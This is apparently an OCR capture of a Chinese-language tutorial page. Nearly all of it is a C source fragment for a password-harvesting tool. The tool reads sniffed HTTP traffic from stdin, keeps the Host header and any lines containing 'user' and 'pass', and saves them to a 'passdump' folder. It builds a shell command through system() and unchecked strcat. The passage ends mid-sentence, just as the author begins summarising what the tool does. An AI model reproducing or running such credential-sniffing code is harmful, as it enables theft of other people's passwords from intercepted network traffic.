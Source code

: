```
    char host2[1629]="0";
    int flag=0;

    char mkdir[128]="mkdir "; 

    get_basepath(basepath);

    strcat(mkdir,basepath);
    strcat(mkdir,"/passdump");

    //先保证存在保存的文件夹
    system(mkdir);

    while(1)
    {
        fgets(buffer,1628,stdin);
        //如果是空行，代表一个数据包结束 或者 紧接着POST内容
        if(strcmp(buffer,"\n")==0)
        {
            //已经出现了记录？写文件然后清空当前密码记录
            if((strcmp(host,"0")!=0)&&(strcmp(pass,"0")!=0))
            {
                //干掉referer，免得一个密码记录好多次
                if(!strstr(pass,"Referer:"))
                {
                    strip_pass(basepath,pass,host);
                    printf("\n\n");
                }
                strcpy(pass,"0");
            }
        }
        else if(strstr(buffer,"Host:"))
        {
            //去掉0x0a和0x0d
            buffer[strlen(buffer)-2]='\0';
            strcpy(host,buffer);
        }
        else if(strstr(buffer,"user")&&strstr(buffer,"pass"))
        {
            //去掉0x0a和0x0d
            buffer[strlen(buffer)-2]='\0';
            strcpy(pass,buffer);
        }
        //buffer[strlen(buffer)-2]='\0';
    }
    return 0;
}

```

概括起来我们的自动机做了以下事情：
